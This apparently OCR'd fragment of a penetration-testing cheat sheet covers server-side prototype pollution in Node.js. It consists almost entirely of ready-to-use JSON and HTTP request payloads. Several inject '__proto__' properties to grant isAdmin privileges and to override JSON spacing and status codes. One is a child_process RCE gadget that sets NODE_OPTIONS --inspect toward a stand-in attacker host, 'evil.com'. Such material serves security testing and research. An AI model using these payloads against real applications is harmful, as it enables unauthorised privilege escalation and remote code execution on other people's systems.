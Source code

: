 This will successfully evade scrapers and create the required DNS interaction.

## Exploitation

### Privilege Escalation

```json
{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "isAdmin": true
    }
}
```

### JSON Spaces Overriding

```http
POST /user/update HTTP/1.1
Host: example.com
content-type: application/json

{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "json spaces": 10
    }
}

```

### Status Code Overriding

```http
POST /user/update HTTP/1.1
Host: example.com
content-type: application/json

{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "status": 555
    }
}
```

### RCE via **`child_process`**

```json
"__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--inspect=evil\"\".com"
}
```
